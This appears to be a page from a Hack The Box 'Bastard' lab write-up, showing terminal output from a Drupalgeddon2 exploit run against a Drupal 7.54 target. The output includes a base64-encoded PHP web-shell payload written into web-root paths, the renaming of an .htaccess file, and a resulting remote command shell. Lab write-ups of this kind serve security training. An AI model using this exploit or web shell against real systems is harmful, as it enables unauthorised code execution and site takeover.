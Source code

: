 # Exploitation (1)

```bash
$ ruby drupalgeddon2.rb http://bastard.htb
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://bastard.htb/
--------------------------------------------------------------------------------
[+] Found  : http://bastard.htb/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.54
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[+] Result : Clean URLs enabled
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo KNYMIYXL
[+] Result : KNYMIYXL
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://bastard.htb/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Existing file   (http://bastard.htb/sites/default/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (sites/default/)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Existing file   (http://bastard.htb/sites/default/files/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (sites/default/files/)
[*] Moving : ./sites/default/files/.htaccess
[i] Payload: mv -f sites/default/files/.htaccess sites/default/files/.htaccess-bak; echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/files/shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
[!] FAILED : Couldn't find a writeable web path
--------------------------------------------------------------------------------
[*] Dropping back to direct OS commands
drupalgeddon2>> whoami
nt authority\iusr
```
